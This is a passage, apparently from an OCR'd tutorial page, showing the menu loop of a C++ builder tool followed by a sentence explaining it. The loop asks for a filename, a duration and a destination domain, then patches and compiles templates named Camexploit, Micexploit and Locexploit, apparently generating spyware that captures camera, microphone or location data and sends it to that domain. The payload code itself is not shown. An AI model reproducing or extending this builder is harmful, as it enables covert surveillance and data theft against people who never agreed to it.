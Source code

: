 ```
                }
                break;
            case 5:
                if (camera || microphone) {
                    std::cout << "Enter output filename: ";
                    std::getline(std::cin, outputFilename);
                } else {
                    std::cout << "You need to select Camera or Microphone first!\n";
                }
                break;
            case 6:
                std::cout << "Enter domain name (including http:// or https://): ";
                std::getline(std::cin, domainName);
                break;
            case 7:
                if (!camera && !microphone && !location) {
                    std::cout << "Please select at least one option!\n";
                } else if ((camera || microphone || location) && (timeInSeconds.empty() || outputFilename.empty() || domainName.empty())) {
                    std::cout << "Please fill in all required fields!\n";
                } else if ( location && domainName.empty()) {
                    std::cout << "Please fill in all required fields!\n";
                } else {
                    if (camera) {
                        updateFileContent("./libs/Camexploit.m", timeInSeconds, outputFilename, domainName);
                        compileAndExport("Camera");
                    }
                    if (microphone) {
                        updateFileContent("./libs/Micexploit.m", timeInSeconds, outputFilename, domainName);
                        compileAndExport("Microphone");
                    }
                    if (location) {
                        updateFileContent("./libs/Locexploit.m", timeInSeconds, outputFilename, domainName);
                        compileAndExport("Location");
                    }
                }
                break;
            case 8:
                return 0;
            default:
                std::cout << "Invalid choice. Please try again.\n";
                break;
        }
```

This loop continues to run until the user chooses the `Exit` option. Within the loop, the console presents a menu to the user
